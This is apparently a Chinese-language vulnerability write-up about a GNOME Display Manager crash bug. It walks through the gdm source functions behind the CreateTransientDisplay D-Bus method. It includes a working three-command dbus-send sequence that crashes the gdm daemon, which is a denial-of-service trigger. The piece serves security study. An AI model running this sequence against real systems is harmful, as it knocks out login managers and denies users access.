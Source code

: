重启发现根本无法显示登陆管理器界面,可以使用Ctrl+Alt+F3的方式 切换到字符终端，然后登陆输入startx。其gdm守护进程也是启动的不影响调试。

# 漏洞分析

使gdm守护进程崩溃的命令如下:

```bash
$ display_path=$(dbus-send --system --dest=org.gnome.DisplayManager --type=method_call --print-reply=literal /org/gnome/DisplayManager/LocalDisplayFactory org.gnome.DisplayManager.LocalDisplayFactory.CreateTransientDisplay)

$ sleep 5

$ dbus-send --system --dest=org.gnome.DisplayManager --type=method_call $display_path org.gnome.DisplayManager.Display.GetId
```

其中D-Bus是针对桌面环境优化的IPC机制，用于进程间的通信或进程与内核的通信。(更加详细的D-Bus介绍可参考资料4、5、6)

第一条命令：调用显示登录管理器下面的LocalDisplayFactory对象的CreateTransientDisplay方法,并将回复的消息正文保存到display_path变量中

第二条命令 : 等待5秒

第三条命令：调用显示登录管理器下面的名称为第一条命令返回的字符串（保存在display_path变量中，类似于字符串“/org/gnome/DisplayManager/Displays/94425659672144”）的GetId方法

### 第一条命令分析

阅读资料7可以发现，第一条命令会调用daemon/gdm-local-display-factory.c:handle_create_transient_display函数

```c
static gboolean
handle_create_transient_display (GdmDBusLocalDisplayFactory *skeleton,
                                 GDBusMethodInvocation      *invocation,
                                 GdmLocalDisplayFactory     *factory)
{
    ..............................
    created = gdm_local_display_factory_create_transient_display (factory,
                                                                      &id,
                                                                      &error);
    ..............................    
    gdm_dbus_local_display_factory_complete_create_transient_display (skeleton, invocation, id);
    ..............................
}

```

其主要调用的函数为gdm_local_display_factory_create_transient_display.

```c
gboolean
gdm_local_display_factory_create_transient_display (GdmLocalDisplayFactory *factory,
                                                    char                  **id,
                                                    GError                **error)
{
        ..................................................
        store_display (factory, num, display);
        ..................................................
}

```
